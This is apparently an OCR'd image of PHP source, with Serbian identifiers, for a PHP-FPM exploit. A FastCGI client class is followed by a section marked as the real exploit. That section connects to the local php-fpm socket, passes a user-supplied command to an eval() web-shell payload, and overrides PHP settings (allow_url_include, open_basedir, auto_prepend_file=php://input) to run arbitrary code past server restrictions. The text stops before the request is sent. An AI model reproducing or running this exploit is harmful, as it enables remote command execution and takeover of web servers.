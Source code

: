 ```php
* @return String
*/
public function zahtev(array $params, $stdin)
{
$response = '';
$this->povezi();
$zahtev = $this->napraviPaket(self::POCETAK_ZAHTEVA, chr(0) . chr(self::ODGOVARAC) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
$paramsZahtev = '';
foreach ($params as $kljuc => $vrednost) {
$paramsZahtev .= $this->napraviNvpar($kljuc, $vrednost);
}
if ($paramsZahtev) {
$zahtev .= $this->napraviPaket(self::PARAMETRI, $paramsZahtev);
}
$zahtev .= $this->napraviPaket(self::PARAMETRI, '');
if ($stdin) {
$zahtev .= $this->napraviPaket(self::STANDARDNI_UNOS, $stdin);
}
$zahtev .= $this->napraviPaket(self::STANDARDNI_UNOS, '');
fwrite($this->_sock, $zahtev);
do {
$odgovor = $this->procitajPaket();
if ($odgovor['tip'] == self::STANDARDNI_IZLAZ || $odgovor['tip'] == self::STANDARDNA_GRESKA) {
$response .= $odgovor['sadrzaj'];
}
} while ($odgovor && $odgovor['tip'] != self::KRAJ_ZAHTEVA);
var_dump($odgovor);
if (!is_array($odgovor)) {
throw new Exception('Loš zahtev');
}
switch (ord($odgovor['sadrzaj']{4})) {
case self::NE_MOZE_MPX_CONN:
throw new Exception('Ova aplikacija ne može da multiplexuje [NE_MOZE_MPX_CONN]');
break;
case self::PREOPTEREĆENO:
throw new Exception('Novi zahtev odbijen; previše zauzeto [PREOPTEREĆENO]');
break;
case self::NEPOZNATA_ULOGA:
throw new Exception('Vrednost uloge nije poznata [NEPOZNATA_ULOGA]');
break;
case self::ZAHTJEV_ZAVRŠEN:
return $response;
}
}
}
?>
<?php
// pravi eksploatacija počinje ovde
if (!isset($_REQUEST['cmd'])) {
die("Proverite unos\n");
}
if (!isset($_REQUEST['filepath'])) {
$filepath = __FILE__;
}else{
$filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Ne radi ništa
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
```